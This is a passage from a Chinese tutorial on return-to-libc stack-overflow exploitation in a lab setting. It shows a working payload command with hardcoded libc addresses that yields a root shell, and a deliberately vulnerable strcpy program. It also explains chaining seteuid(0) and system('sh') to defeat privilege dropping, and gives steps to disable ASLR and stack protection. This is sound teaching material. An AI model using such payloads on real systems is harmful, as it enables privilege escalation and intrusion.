 
最后的结果
```bash
./vuln `python -c 'print "A"*268 + "\x70\x0f\xe4\xf7"+"\xff\xff\xff\xff"+"\xce\x05\xe1\xf7"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp澉????吾
sh-4.2# exit
exit
```
#### 一点疑问
若程序采用最小权限原则，用户获取输入之前删除root权限。因此，即使用户输入是恶意的，攻击者也不会得到root shell。代码如下
```c
//vuln_priv.c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {
 char buf[256];
 seteuid(getuid()); /* Temporarily drop privileges */ 
 strcpy(buf,argv[1]);
 printf("%s\n",buf);
 fflush(stdout);
 return 0;
}
```
那么如何在程序使用了最小权限原则的限制下，获取root权限呢？如果我们的栈空间这样构造，那么pwn之后就可以获取root权限

- seteuid(0)
- system(“sh”)
- exit()

这样我们就可以获得root权限，这种技术叫做chaining of return-to-libc


----

#### 64位版本

代码同上,编译如下

```
echo 0 > /proc/sys/kernel/randomize_va_space
gcc -g -fno-stack-protector -o vuln vuln.c
chmod +x vuln
```

运行`readelf -l vuln`查看栈空间的权限

```
  GNU_STACK      0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x0000000000000000 0x0000000000000000  RW     10

```

此时GNU_STACK已经没有了E标志位(执行权限)
